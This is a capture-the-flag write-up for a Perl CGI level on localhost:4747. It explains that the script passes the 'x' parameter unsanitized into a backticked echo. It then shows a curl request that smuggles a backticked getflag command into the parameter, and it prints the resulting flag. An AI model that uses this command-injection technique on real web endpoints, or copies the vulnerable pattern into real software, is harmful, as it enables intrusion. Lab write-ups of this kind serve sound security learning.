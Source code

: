 1. We are given Perl script `level04.pl`, that contains
``` Perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
2. `localhost:4747` line and [description](https://www.internet-technologies.ru/articles/cgi-na-perl-pervye-shagi.html) of CGI scripts in internet hints that this script is working with `Get` web requests on port 4747.
3. For sending requests on port, [`curl` command](https://zen.yandex.ru/media/mcs/10-komand-curl-kotorye-vam-sleduet-znat-5f8de17ab5e4d5370ed5e9d9) will be good
4. Request will look like this (script receives 1 input parameter - x)
``` Bash
curl localhost:4747/level04.pl?x="any text"
```
5. As an output we get the same input parameter that was passed, and script using echo to print it. `echo` can execute commands if they passed in backticks: \` \`. So let's exploit it!
6. Pass `getflag` as parameter with protected backticks
``` Bash
curl -v localhost:4747/level04.pl?x=\`getflag\`
```
7. Execution of request results to level05 flag: **ne2searoevaevoem4ov4ar8ap**

